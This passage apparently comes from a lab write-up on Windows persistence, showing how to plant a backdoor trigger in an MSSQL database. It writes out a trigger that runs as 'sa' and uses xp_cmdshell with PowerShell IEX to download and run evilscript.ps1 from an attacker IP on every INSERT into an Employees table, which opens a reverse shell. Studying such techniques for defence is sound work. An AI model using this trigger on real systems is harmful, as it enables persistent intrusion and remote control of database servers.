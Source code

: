 ![](/assets/img/Pasted image 20230108181845.png)

	- This is the contents of 'evilscript.ps1'.

- Also, setting the listening process in the attacker's machine with the given port above:

![](/assets/img/Pasted image 20230108182100.png)

- Create a python web server on the attacker's machine for the victim to be able to download the `evilscript.ps1`:

![](/assets/img/Pasted image 20230108182119.png)

![](/assets/img/Pasted image 20230108182140.png)

<u>What to execute in the Victim's machine</u>:
- The ***trigger*** will be configured to execute whenever an '`INSERT`' is made into the '`Employees`' table of the '`HRDB`' database:

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://10.10.25.96:8000/evilscript.ps1'')"';
```

	- Its like a 'logic bomb' I guess, that executes the payload planted by the attacker whenever a user does a specific operation in the MSSQL server which in this case is INSERT.

<u>Opened terminals in the attacker's machine to handle the connections in this exploit</u>;

		- The trigger will perform the first connection to 'download' and 'execute' 'evilscript.ps1'. Our trigger is using port 8000 for that.
		- The second connection will be a reverse shell on port 4454 back to our attacker machine.

##### 7. Execute the `download` in sql command:

![](/assets/img/Pasted image 20230108182828.png)

	- This SQL command just downloads the evilscript.ps1 but not execute it.


##### 8. Go to the IP address where the MSSQL is hosted and insert an employee. Remember that the payload gets triggered for each `INSERT` operation:

![](/assets/img/Pasted image 20230108183159.png)

<u>Terminal of the attacker</u>:

![](/assets/img/Pasted image 20230108183221.png)

	- Reverse shell received!
